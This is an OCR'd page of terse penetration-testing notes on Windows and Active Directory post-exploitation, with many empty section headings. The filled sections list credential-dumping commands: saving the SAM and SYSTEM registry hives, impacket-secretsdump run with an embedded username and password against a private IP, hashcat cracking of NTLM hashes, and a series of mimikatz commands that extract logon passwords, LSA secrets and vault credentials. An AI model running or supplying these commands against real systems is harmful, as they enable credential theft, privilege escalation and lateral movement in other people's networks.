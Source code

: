 ##  User Enumeration /domain 

>   net logged on user

##  Group Enumeration / Nested Group Enumeration

##  Permissions missuse []

##	WinPrevEsc



##  Find SPNs

-   .\GetUserSPNs.ps1
-   POST-ENUMERATION.MD

##  Pivoting / Two Level Pivoting / Port Forwarding / Tunnling


##  Password Dump
>   mimikatz
>   sam/system
>   crunch
>   finding more passwords in files []


### Password DUMP USING SAM/SYSTEM

-   C:\>reg save HKLM\SAM C:\sam
-   C:\>reg save HKLM\SYSTEM C:\system
-   impacket-secretsdump 'FRIENDS/svc_backup:Password9@192.168.159.149' 
-   impacket-secretsdump -sam sam -system system LOCAL
-   hashcat -m 1000 'ntlm' /opt/rockyou

### Password DUMP USING Cached Credentials  [AD]

[+] imapcket / pwoershell mimikatz

-   mimikatz.exe
-   privilege::debug
-   sekurlsa::logonpasswords
--------------------------------
-   sekurlsa::logonpasswords
-   privilege::debug sekurlsa::logonpasswords
-   lsadump::sam
-   token::elevate lsadump::sam
-   lsadump::secrets
-   token::elevate lsadump::secrets
-   vault::cred
---------------------------------
